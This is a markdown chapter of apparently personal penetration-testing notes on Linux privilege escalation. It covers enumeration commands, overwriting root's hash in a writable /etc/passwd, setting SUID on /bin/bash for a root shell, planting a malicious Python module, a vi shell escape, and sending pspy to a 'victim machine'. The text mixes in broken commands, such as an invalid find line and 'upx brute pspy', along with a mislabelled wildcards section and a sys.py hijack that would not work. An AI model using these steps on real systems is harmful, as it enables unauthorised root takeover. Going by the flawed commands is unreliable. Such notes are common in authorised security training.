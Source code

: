 # (PART) Privilege Escalation {-}

# Linux Machine {-}


To check in which group the user is in the machine:

```bash
id 
```

> [!] NOTE: Checking groups can be interesting because sometimes groups are not related to the machine but related to tools like Docker, lxd or other.

To look at the user privileges use:

```bash
sudo -l
```

Next enumerate SSUID privileges at system level:

```bash
cd /
find \-perm -4000 2>/dev/null
```

## Writable rights in /etc/passwd {-}

Find the tools where the non privileged user have writable rights

```bash
cd /
find \-writable -4000 2>/dev/null | grep "etc"
```

Imagine that /etc/passwd is in the list, that means that u can add a password to root where the first **x** is.

Create a DES(Unix) password

```bash
openssl passwd
#Output
Password:
Verifying - Password:

JIJQueSBU9kBY
```

You can then copy the hash in passwd for the root user

```bash
root:JIJQueSBU9kBY:0:0:root:/root:/usr/bin/zsh
```

## Check crons on machine {-}

```bash
cat /etc/cron
crontab -l
ls /var/spool/cron/
ls /var/spool/cron/ -l
systemctl list-timers
```

## Monitoring processes using bash {-}

```bash
#!/bin/bash

old_process=$(ps -eo command)

while true; do
    new_process=$(ps -eo command)
    diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -v -E "procmon|ps|command"
    old_process=$new_process
done
```

## Monitoring processes using pspy {-}

**pspy** is a utility written in GO that allows attackers to monitorize background processes.

```bash
git clone https://github.com/DominicBreuker/pspy
cd pspy
go build -ldflags "-s -w" .
upx brute pspy 
```

You can send the pspy compiled file to the victim machnie using `python3 -m http.server` and run it with `.\pspy` after giving pspy execution 
rights.

## Check for GIT repositories {-}

```bash
find \-type f 2>/dev/null | grep ".git"
```

Some times, you will be able to see folders that contains a `.git` folder in it. That means that this folder is a repository git.
**GIT** is not a vunlerability if facts but as they save all the history of de files changes, as an attacker we can enumerate and
see if developpers have made mistakes.

```bash
git log
```

With the parameter `-p` you can look at the differences made in a specific commit.

```bash
git log -p 33e87c312c08735a02fa9c796021a4a3023129ad
```

## Local Port forwarding {-}

```bash
ssh -i id_rsa user@<ip> -L 9000:172.17.0.2:9000
```

- -i for adding ssh id_rsa key
- -L for local port forwarding where 9000 correspond to local attacker port and 172.17.0.2:9000 correspond to the address Attacker want to connect using ssh

## Add SSUID privilege to tool {-}

```bash
ls -l /bin/bash
# output
-rwxr-xr-x  1   root    root    1037528 May 16  2017    bash

#add ssuid rules
chmod u+s /bin/bash
ls -l /bin/bash
#output
-rwsr-xr-x  1   root    root    1037528 May 16  2017    bash

bash -p
# output
bash-4.3# whoami
root
```

## Path Hijacking {-}

**Path Hijacking** take profit of programms that are ssuid and use a command that have a relative path. You can then update the Path variable environment
and point to a malicious software that will be executed as root

## Library Hijacking {-}

**Library Hijacking** follows exactly the same logic as **Path Hijacking** but with programming languages. If we take the example of python.

```python
import sys

print(sys.path)
#Output
['', '/usr/lib/python2.7', ...]
```

As you can see, when we use the keyword import in python, the first place python will check for importing a library is in the current working directory.
That means that taking the same dumby example if you create a malicious file and rename it by sys.py

```python
import os

os.setuid(0)
os.system("/bin/bash")
```

That's it... by calling the previous script you will become root.

## WildCards {-}

```bash
sudo -l

#output
User x may run the following commands on y:
    (user2) NOPASSWD: /usr/bin/vi


sudo -u user2 /usr/bin/vi
# in vim you can now set commands as user2

:set shell=/bin/bash
:shell

whoami
#output
user2
```

## Linux capabilities exploitation {-}

Check in the system if a tool have a special capability that can be used in order to escalate privileges (**cap_setuid+ep**)

```bash
getcap -r / 2>/dev/null
```

## Kernel abuse {-}

first check the kernel version

```bash
uname -a
```
